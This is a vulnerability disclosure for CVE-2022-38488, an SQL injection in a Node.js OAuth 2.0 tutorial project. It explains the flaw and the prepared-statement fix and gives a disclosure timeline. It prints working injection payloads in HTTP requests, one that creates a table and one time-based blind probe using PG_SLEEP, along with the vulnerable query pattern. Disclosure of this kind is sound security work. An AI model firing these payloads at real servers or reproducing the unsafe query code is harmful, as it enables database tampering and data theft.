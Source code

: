 
# CVE-2022-38488 - SQL Injection in logrocket-oauth2-example

`logrocket-oauth2-example` is vulnerable to an SQL Injection due to the insertion of unsanitized user input into SQL queries.

The affected code has been published on github. The code is part of a tutorial titled "How to implement OAuth 2.0 in Node.js".  
The tutorial is in the top three Google results when searching for "nodejs oauth2 example" ( Archived August 2022 - https://archive.ph/us4A3 ). Derived projects are likely to share this vulnerability.

Links:

* https://blog.logrocket.com/implement-oauth-2-0-node-js/
* https://archive.ph/VlGDa
* https://github.com/diogosouza/logrocket-oauth2-example
* https://archive.ph/PecmD


## Proof of Concept

SQL Injection in `/auth/register`

Example HTTP Request (Burp):

```text
POST /auth/register HTTP/1.1
Host: 127.0.0.1:3000
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 50

password=test3&username=test';CREATE TABLE hacked()--
```

This will create a table named "hacked". 


Data can also be exfiltrated via time-based blind SQL Injections:

```text
POST /auth/register HTTP/1.1
Host: 127.0.0.1:3000
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 50

password=test3&username=test';SELECT PG_SLEEP(5)--
```

### Proof-of-Concept Script

A Python3 Proof-of-Concept script is provided in the attached archive file. Only run these exploits in local testing environments.

1. Change the `target_ip` variable to the IPv4 address / domain of the target server.
2. Change the `target_port` variable to the TCP port of the target server.

The following command will create a new table named "hacked" in the Postgres database connected to the target server via SQL injection.

3. Run the script with `python3 poc_createtable.py`.


## Vulnerability Explanation

This vulnerability is caused by the direct insertion of unsantized user input into SQL query strings:

```javascript
// vulnerable example code
// ...
const username = req.body.username; // user input
const query = `SELECT * FROM users WHERE username = '${username}'`;
pool.query(query, (error, results) => { /* ... */ });
```

For example a user input of `test';CREATE TABLE hacked()--` will result in the `query` variable being set to:

```sql
SELECT * FROM users WHERE username = 'test';CREATE TABLE hacked()--'
```

## Remedies

It is recommended to use "prepared statements" instead. 

The node-postgres (`pg`) library (used in the project) provides the following example code:

```javascript
//+ Source: https://node-postgres.com/features/queries

//+ Query in prepared statement format
const query = {
  text: 'INSERT INTO users(name, email) VALUES($1, $2)',
  values: ['brianc', 'brian.m.carlson@gmail.com'],
}

// callback
client.query(query, (err, res) => {
  if (err) {
    console.log(err.stack)
  } else {
    console.log(res.rows[0])
  }
})

// promise
client
  .query(query)
  .then(res => console.log(res.rows[0]))
  .catch(e => console.error(e.stack))
```

This will automatically escape provided string parameters.

## Publication Timeline

* Aug 20, 2022 - **CVE-2022-38488** was assigned by the MITRE Corporation
* Aug 22, 2022 - Developer was informed about the vulnerability via Email. A 60 days Responsible Disclosure deadline was set.
* Oct 21, 2022 - Responsible Disclosure deadline expired
* Nov 27, 2022 - Vulnerablity was made public

